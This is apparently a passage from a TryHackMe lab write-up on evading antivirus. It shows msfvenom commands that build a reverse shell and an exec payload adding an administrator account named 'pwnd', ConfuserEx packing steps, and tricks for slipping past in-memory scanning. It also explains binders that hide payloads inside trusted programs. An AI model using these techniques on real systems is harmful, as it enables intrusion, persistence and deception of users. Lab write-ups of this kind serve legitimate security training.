 ![](https://cdn-images-1.medium.com/max/800/1*YUL-WRcwssNJYmq1Sw831w.png)

This payload takes a shellcode generated by **msfvenom** and runs it into a separate thread. For this to work, you’ll need to generate a **new** **shellcode** and put it into the shellcode variable of the code:

> **Msfvenom –p windows/x64/shell\_reverse\_tcp LHOST , LPORT –f csharp;**

> **Csc UnEncStagelessPayload.cs**

Once you have a working executable, you can try uploading it to the THM Antivirus Check page, It should be flagged by the AV immediately. Let’s use a packer on the same payload and see what happen.

We will use the **ConfuserEX** packer for this task, as our payloads are programmed on **.NET**. ConfuserEX will require you to indicate the Folders in which it will work. Be sure to select your desktop as the base directory. Once the base directory is set up, drag and drop the executable you want to pack on the interface.

Let’s go to the settings tab and select our payload. Once selected, hit the **“+”** button to add settings to our payload. This should create a rule named “**true**”. Make sure to enable **compression** as well. We will now edit the “**true**” rule and set it to the **Maximum preset**. Finally, we will go to the “**Protect**!” tab and hit ”**Protect**” .

So far, so good, but remember we talked about AVs doing in memory scanning! If you try running a command on your reverse shell, the **AV notice your shell and kill it**. This is because Windows Defender will hook certain Windows API calls and do in-memory scanning whenever such AP calls are used. in the case of any shell generated with **msfvenom**, **CreateProcess()** with invoked and detected.

**So what do we do now?**

there are a couple of simple things you can do to avoid detection:

**Just wait a bit**: try spawning the reverse shell again and wait for around 5 minutes before sending any command, you’ll see the AV won’t complain anymore. The reason for this is that scanning memory is an expensive operation. Therefore, the AV will do it for a while after your process starts but will eventually stop.

**Use smaller payloads:** The smaller the payload, the less like it to be detected. if you use **msfvenom** to get a single command executed instead of a reverse shell, the AV will have a harder time detecting it. You can try with

**Msfvenom –a x64 –p windows/x64/exec CMD=’net user pwnd Password321 /add; net localgroup administrators pwnd /add’ –f csharp.** And see what happens.

if detection isn’t an issue, you can use a simple trick. from your reverse shell, run **cmd.exe** again. The AV will detect your payload and kill the associated process, but not the new cmd.exe you just spawned!

While every single AV will behave differently, most of the time. There will be a similar way around them, so it’s worth exploring any weird behaviors you notice while testing.

**Binders**

while not an AV bypass method, binders are also important when designing a malicious payload to be distributed to end users. A **binder** is a program that **merges** two (or more) executables into a single one. It is often used when you want to distribute your payload hidden inside another known program to fool users into believing they are executing a different program.

